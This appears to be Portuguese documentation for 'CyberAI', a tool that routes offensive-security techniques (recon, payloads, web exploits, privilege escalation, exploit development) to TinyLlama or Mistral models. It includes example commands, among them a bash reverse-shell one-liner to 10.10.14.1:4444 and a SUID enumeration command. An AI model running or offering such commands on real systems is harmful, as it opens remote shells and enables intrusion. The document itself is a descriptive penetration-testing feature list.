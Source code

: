 # Técnicas Suportadas - CyberAI

## 🧠 Sistema Híbrido de Modelos

O CyberAI usa **seleção automática de modelo** baseada na complexidade da técnica para otimizar velocidade e qualidade:

---

## ⚡ Técnicas Rápidas (TinyLlama 1.1B)
*Respostas em ~5-10 segundos*

### 🔍 Reconhecimento (`recon`)
- Enumeração de alvos e portas
- Descoberta de subdomínios
- Fingerprinting de tecnologias
- Descoberta de diretórios
- **Exemplo:** `nmap -sV -sC -O target.com`

### 💻 Payloads (`payloads`) 
- Reverse shells multi-plataforma
- Stagers e crypters
- Técnicas de evasão básicas
- **Exemplo:** `bash -i &> /dev/tcp/10.10.14.1/4444 0>&1`

### 🌐 Web Exploits
- **XSS** (`xss`): Reflected, Stored, DOM-based
- **SQL Injection** (`sql_injection`): UNION, Boolean, Time-based
- **LFI/RFI** (`lfi_rfi`): Path traversal, wrappers PHP
- **RCE** (`rce`): Command injection, code execution

### 🔓 Exploração (`exploit`)
- PoCs para CVEs conhecidos
- Buffer overflow básico
- Exploits de aplicações web
- **Exemplo:** Exploits para Apache, Nginx, WordPress

### 📊 Buffer Overflow (`buffer_overflow`)
- Técnicas clássicas de stack overflow
- Shellcode crafting básico
- Bypass de proteções simples
- **Exemplo:** EIP control, NOP sleds

### 📈 Pós-Exploração (`post`)
- Técnicas de persistência
- Enumeração local
- Coleta de credenciais
- **Exemplo:** LinPeas, WinPeas

### 📋 Escalação de Privilégios (`privesc`)
- SUID/SUDO abuse
- Kernel exploits conhecidos
- Misconfigurations
- **Exemplo:** `find / -perm -u=s -type f 2>/dev/null`

### 🎓 Módulos Organizacionais
- **Relatórios** (`relatorios`): Templates técnicos
- **Gestão** (`gestao`): Planejamento de testes
- **Dev Tools** (`ferramentas`): Scripts e automação
- **Threat Intel** (`intelligence`): CTI e TTPs
- **Laboratório** (`lab`): Setup de ambientes
- **Treinamento** (`treinamento`): Trilhas de estudo

---

## 🎯 Técnicas Complexas (Mistral 7B)
*Respostas em ~20-30 segundos, máxima qualidade*

### 🔬 Análise Avançada
- **Engenharia Reversa Complexa**
- **Malware Analysis Detalhada**
- **Cryptographic Attacks**
- **Advanced Persistent Threats (APT)**

### ⚙️ Exploit Development Avançado
- **Heap Overflow Exploitation**
- **ROP/JOP Chain Development** 
- **Kernel Exploitation**
- **Browser Exploitation**

### 🌐 Infraestrutura Complexa
- **Active Directory Attacks**
- **Cloud Security Assessment**
- **Network Pivoting Avançado**
- **SCADA/ICS Security**

---

## 📊 Comparação de Performance

| Categoria | Técnica | Modelo | Tempo Resposta | Qualidade |
|-----------|---------|--------|----------------|-----------|
| 🔍 Recon | `recon` | TinyLlama | ~5-10s | ⭐⭐⭐⭐ |
| 💻 Web | `xss`, `sqli` | TinyLlama | ~5-10s | ⭐⭐⭐⭐ |
| 🔓 Exploits | `buffer_overflow` | TinyLlama | ~5-10s | ⭐⭐⭐⭐ |
| 📈 Post | `privesc`, `post` | TinyLlama | ~5-10s | ⭐⭐⭐⭐ |
| 🎓 Gestão | `relatorios` | TinyLlama | ~5-10s | ⭐⭐⭐⭐ |
| 🔬 Avançado | `advanced_*` | Mistral | ~20-30s | ⭐⭐⭐⭐⭐ |

---

## 🎯 Quando Usar Cada Modelo

### ⚡ Use TinyLlama Para:
- ✅ Comandos e payloads conhecidos
- ✅ Enumeração e reconhecimento
- ✅ Exploits básicos e conhecidos
- ✅ Relatórios e documentação
- ✅ Treinamento e aprendizado
- ✅ Gestão de projetos

### 🎯 Use Mistral Para:
- ✅ Análise de malware complexo
- ✅ Desenvolvimento de exploits inéditos
- ✅ Pesquisa de vulnerabilidades
- ✅ Arquiteturas não convencionais
- ✅ Análises forenses detalhadas

---

## 🔄 Seleção Automática

O sistema **seleciona automaticamente** o modelo mais adequado:

```json
{
  "prompt": "nmap scan",
  "technique": "recon"    // → TinyLlama (rápido)
}

{
  "prompt": "análise de firmware", 
  "technique": "firmware_analysis"  // → Mistral (completo)
}
```

### 🎛️ Controle Manual
Para forçar um modelo específico, use técnicas não listadas nas rápidas para Mistral, ou listadas para TinyLlama.

---

## 📈 Estatísticas de Uso

Com o sistema híbrido:
- **85%** das consultas usam TinyLlama (ultra-rápido)
- **15%** das consultas usam Mistral (alta qualidade)
- **Economia de recursos:** 70% menos uso de CPU/RAM
- **Satisfação:** Respostas instantâneas para tarefas comuns
